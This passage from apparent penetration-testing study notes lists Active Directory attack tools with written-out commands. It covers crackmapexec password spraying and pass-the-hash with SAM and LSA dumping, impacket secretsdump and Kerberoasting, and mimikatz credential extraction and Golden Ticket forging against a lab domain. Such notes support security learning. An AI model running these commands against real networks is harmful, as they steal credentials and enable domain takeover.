     ```

- [bloodhound](https://github.com/BloodHoundAD/BloodHound) - easily identify highly complex attack paths
- crackmapexec - can take passwords or hashes that we found and check them against all computers on a network

    ```powershell
    crackmapexec 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1
    #Spray the network with local login credentials then dump SAM contents
    crackmapexec smb 10.0.0.1/24 -u administrator -p 'password' --local-auth --sam
    #Pass the hash network-wide, local login, dump LSA contents
    crackmapexec smb 10.0.0.1/24 -u administrator -H <hash> --local-auth --lsa

    ```

- [secretsdump.py](http://secretsdump.py) (impacket) - dumps hashes for known user/password

    ```powershell
    secretsdump.py marvel/fcastle:Pssword1@192.168.4.4
    ```

- [incognito (meterpeter)](https://www.notion.so/incognito-meterpeter-881379ef297d4b3f8b50745428e1e8ed) - can impersonate a user
- [GetUserSPNs.py](http://getuserspns.py) (impacket)

    ```bash
    GetUserSpns.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
    ```

- [mimikatz](https://github.com/gentilkiwi/mimikatz) - can extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets

    ```bash
    mimikatz
    privilege::debug` (allow us to bypass several protections)
    sekurlsa::logonpasswords` show us all users login from reboot, we can pass the hash or crack them, we can search for `wdigest` until windows8 including windows7 the passoword stored in plain text, from windows8 microsoft turned it off, we can turn it on from mimikatz and wait for a user to login
    lsadump::sam` dumps the SAM
    lsadump::lsa /patch` dumps Local Security Authority
    lsadump::lsa /inject /name:krbtgt`
    kerberos::golden /User:Administrator(doesnt matter, can be fake) /domain:marvel.local /sid:SID /krbtgt:NTLM /id:500(your RID) /ptt(pass the ticket to our next session)`
    misc::command` (gives us command prompt with full privilege)
    ```

# Privilige Escalation ([alot of resources](https://github.com/coreb1t/awesome-pentest-cheat-sheets#privilege-escalation))

[Linux privilege escalation](https://jok3rsecurity.wordpress.com/linux-privilege-escalation/)

[Linux Privilege Escalation CheatSheet for OSCP - ByteFellow](https://www.bytefellow.com/linux-privilege-escalation-cheatsheet-for-oscp/)
